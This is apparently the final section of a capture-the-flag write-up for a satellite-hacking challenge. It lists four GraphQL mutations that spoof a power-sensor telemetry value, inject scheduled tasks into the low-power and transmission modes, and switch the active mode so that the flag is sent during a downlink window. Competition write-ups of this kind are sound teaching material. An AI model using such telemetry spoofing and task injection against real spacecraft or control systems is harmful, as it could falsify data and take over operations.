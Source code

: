 ```

```

Note: This walkthrough skipped a lot failed attempts, creating modes, schedules, trying different delays, a different order of operations, etc... until it clicked for us that satellite probably is only in view of a ground station for a short period of time. Those absolute timestamps on the transmission tasks are a necessity! It is critical to base any modifications to transmission around the existing timestamps.

## Putting it all Together

We performed a lot of exploratory, documentation reading, incorrect attempts, and other actions. Only four actions need to be taken to solve the challenge:

1. Spoof the VIDOIDE value into the telemetry database by sending the following mutation in a loop:

   ```
   mutation {
     insert(subsystem: "eps", parameter: "VIDIODE", value: "8") {
       success, errors
     }
   }
   ```

2. Add an *extra-op* schedule to the **low_power** mode to point to the sun before sleeping:

   ```
   mutation {
     importRawTaskList(name: "extra-op", mode: "low_power",
       json: "{\"tasks\": [{\"description\": \"point to sun\", \"delay\": \"0s\", \"app\": {\"name\": \"sunpoint\"}}]}") {
       success, errors
     }
   }
   ```

3. Add an *extra-op* schedule to the **transmission** to print the flag after the downlink communication has been established and before the disconnect (the time of the task needs to be updated to match the next transmission time):

   ```
   mutation {
     importRawTaskList(name: "extra-op", mode: "transmission",
       json: "{\"tasks\": [{\"description\": \"print flag\", \"time\": \"2020-05-28 18:39:49\", \"app\": {\"name\": \"request_flag_telemetry\"}}]}") {
       success, errors
     }
   }
   ```

4. Switch the active mode to **low_power**:

   ```
   mutation {
     activateMode(name: "low_power") {
       success, errors
     }
   }
   ```

   

